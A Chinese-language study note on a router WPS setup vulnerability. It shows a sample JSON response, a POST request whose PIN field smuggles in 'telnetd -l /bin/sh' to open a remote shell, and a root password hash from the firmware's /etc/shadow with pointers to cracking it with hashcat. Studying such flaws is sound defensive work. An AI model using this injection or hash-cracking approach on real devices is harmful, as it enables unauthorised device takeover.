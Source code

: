 ![QQå¾ç20180705182022.png](https://github.com/zhongshendoushuizhao/project/blob/master/vul_learn/picture/QQ%E5%9B%BE%E7%89%8720180705182022.png?raw=true) 

比较在意的是 wps-setup.json

`{`
	"timeout": false,
	"success": true,
	"data":{
		"wps_setup_pin": "205300", 
		"wl0_wps_setup_status": "success",
		"wl1_wps_setup_status": "failed",
		"wl0_wps_client_mac": "9A-34-7F-4C-B3-70",
		"wl1_wps_client_mac": "C2-43-E5-42-D5-68"    
	}
`}`

根据请求可以明显看出

operation=write&option=connect&wps_setup_pin=11480723%3Btelnetd+-l+%2Fbin%2Fsh

![QQå¾ç20180705183256.png](https://github.com/zhongshendoushuizhao/project/blob/master/vul_learn/picture/QQ%E5%9B%BE%E7%89%8720180705183256.png?raw=true) 

POST数据解析成

application/x-www-form-urlencoded编码  key:value 对应



说明 对 json 类的文件解析操作 没有做 处理



**对于分析原理角度及fuzz思路角度**

#### 分析原理角度：

网上较多的是做源码审计-->通过对固件文件审计，挖掘可利用点

首先是 对linux系统文件体系知识要丰富



#### 类似的审计弱点有：

对/etc/shadow (password口令影子文件) 简单破解

固件中 /etc/shadow 文件中的 数据为

root:$1$GTN.gpri$DlSyKvZKMR9A9Uj9e9wR3/:15502:0:99999:7:::

```
类/etc/password 文件，分析每个条目为7个域，分别为：

例子： ynguo:x :509:510::/home/ynguo:/bin/bash 

名字 ：密码  ：用户Id  : 组ID  ： 用户信息 ：  主目录  ： shell 
```

对此类密码，强度较弱的情况下 可通过 [hashcat](https://samsclass.info/123/proj10/p12-hashcat.htm )  爆破

```
$1$GTN.gpri$DlSyKvZKMR9A9Uj9e9wR3/

$1 代表类型1加密  其他的都为$ salt

如上 为 $GTN.gpri
```
